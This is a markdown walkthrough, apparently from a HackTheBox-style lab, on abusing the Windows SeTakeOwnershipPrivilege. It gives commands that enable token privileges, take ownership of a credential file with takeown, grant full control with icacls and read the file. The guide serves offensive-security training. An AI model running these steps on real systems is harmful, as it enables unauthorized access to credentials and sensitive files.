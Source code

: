 ## 📖 What is SeTakeOwnershipPrivilege?

This privilege allows a user to:
- Take ownership of any **securable object** (files, folders, registry keys, etc.)
- Change the **owner** of an object using `WRITE_OWNER` permission

🔐 By default, only **Administrators** have this right.

⚠️ It is rare for regular users to have this, but **backup accounts** or **misconfigured users** may have it.


## 🧭 Why is it Useful?

If you can take ownership of a file:
- You can change its **Access Control List (ACL)**.
- You can grant yourself **Full Control**.
- You can read **sensitive files** (like `cred.txt` or `web.config`).


### Step 1: Check Privileges

```bash
whoami /priv 
```

Look for `SeTakeOwnershipPrivilege `
Even if **Disabled**, you can **enable** it.

###  Step 2: Enable the Privilege (if needed)

1. Download & Import the script:

```bash
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```

2. Confirm it's now enabled:

```bash
whoami /priv
```

###  Step 3: Choose a Target File

Assume the file is:
C:\Department Shares\Private\IT\cred.txt

Check its details:

```bash
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select FullName, LastWriteTime, Attributes, @{Name="Owner"; Expression={(Get-Acl $_.FullName).Owner}}
```

###  Step 4: Take Ownership

```bash
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

 You should see:
SUCCESS: The file [...] now owned by user [...]


###  Step 5: Confirm New Owner

```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Name, Directory, @{Name="Owner"; Expression={(Get-Acl $_.FullName).Owner}}
```


###  Step 6: Grant Yourself Full Permissions

```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

> Replace `htb-student` with your username if different.


###  Step 7: Read the File

```
cat 'C:\Department Shares\Private\IT\cred.txt'
```
